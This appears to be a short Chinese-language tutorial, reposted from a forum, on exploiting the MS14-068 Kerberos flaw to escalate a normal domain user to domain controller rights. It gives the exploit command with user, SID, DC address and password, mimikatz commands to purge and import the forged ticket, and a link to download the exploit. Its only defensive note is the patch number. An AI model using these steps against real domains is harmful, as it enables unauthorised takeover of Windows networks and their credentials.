





# 4.2.5 MS14-068

> 原文：[https://www.zhihuifly.com/t/topic/3431](https://www.zhihuifly.com/t/topic/3431)

### 4.2.5 MS14-068

MS14-068 是一个能够使普通用户提权获取域控权限的权限提升漏洞，微软给出的补丁 是 kb3011780。在 server 2000 以上的域控中，只要没打这个补丁，都有可能被利用。

*   1、 尝试直接访问域控的 C 盘



*   2、使用 ms14-068 的 exp，生成票据

```
C:\Users\jeff1\Desktop>MS14-068.exe -u jeff1@adtest.com -s S-1-5-21-3418659180-3 421952656-1938706522-1109 -d 192.168.19.100 -p test@124 
```



*   3、 使用 mimilatz 导入生成的 ccache 文件，导入之前 cmd 下使用命令 klist purge 或者在 mimikatz 中使用 kerberos::purge 删除当前缓存的 kerberos 票据



导入票据:

```
kerberos::ptc TGT_jeff1@adtest.com.ccache 
```



4、 再次访问域控



MS14-068 下载地址:

https://github.com/ianxtianxt/MS14-068